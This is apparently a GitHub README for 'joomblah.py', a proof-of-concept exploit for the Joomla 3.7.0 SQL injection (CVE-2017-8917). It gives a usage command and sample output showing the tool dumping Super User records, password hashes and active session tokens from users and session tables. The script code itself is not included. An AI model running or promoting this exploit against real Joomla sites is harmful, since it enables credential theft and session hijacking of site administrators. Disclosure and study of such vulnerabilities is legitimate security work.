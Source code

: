 #Exploit for Joomla 3.7.0 (CVE-2017-8917)
Another proof of concept exploit for Joomla, whoop-de-doo, this time a SQL Injection in 3.7.0.

https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
Usage
Point the joomblah.py script at the vulnerable Joomla 3.7.0 install, it may take some time, but it will dump the users and session tables.

```
$ python joomblah.py http://127.0.0.1:8080
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: rlbre_users
  -  Found table: tgukl_users
  -  Extracting users from rlbre_users
 [$] Found user ['361', 'Super User', 'admin', 'admin@example.com', '$2y$10$G4ivaKw71R4uIvuHYliSke5pHoh1Q.xm.Sk29d8zpzx4xJBfPoyEK', '', '']
  -  Extracting sessions from rlbre_session
 [$] Found session ['361', '3rfv8kql26s6kvimpbchneom85', 'admin']
  -  Extracting users from tgukl_users
 [$] Found user ['883', 'Super User', 'admin', 'admin@example.com', '$2y$10$5Za2zpqTdRo5x19cvO5biOKeiyOi2iTQ3u0SSLtcs6uvIvJhvM9aG', '', '']
  -  Extracting sessions from tgukl_session
```
Licence
Licenced under the WTFPL
